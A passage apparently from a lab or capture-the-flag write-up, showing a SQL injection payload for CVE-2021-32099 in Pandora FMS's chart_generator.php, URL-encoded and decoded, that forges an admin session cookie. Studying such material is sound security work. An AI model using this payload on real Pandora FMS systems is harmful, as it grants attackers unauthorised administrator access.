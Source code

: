 [This
POC](https://sploitus.com/exploit?id=100B9151-5B50-532E-BF69-74864F32DB02)
for CVE-2021-32099 (the SQL injection used above) shows this payload:



    http://localhost:8000/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a => Pandora FMS Graph ( - )



URL decoded that looks like:



    PayloadHere' union select '1','2','id_usuario|s:5:"admin";' -- a



Effectively, this is querying the sessions table to find out what user I
am, and injecting one of data that makes the application think I'm the
admin user. If I do that, it actually sets a cookie that is the
`PHPSESSID` for the admin user. I can simply visit that url, and then
reload the main page, and it says I'm admin:

![](/img/image-20220519135812617.png)

There's a lot more options on the left hand menu as well:

![](/img/image-20220519135840970.png)
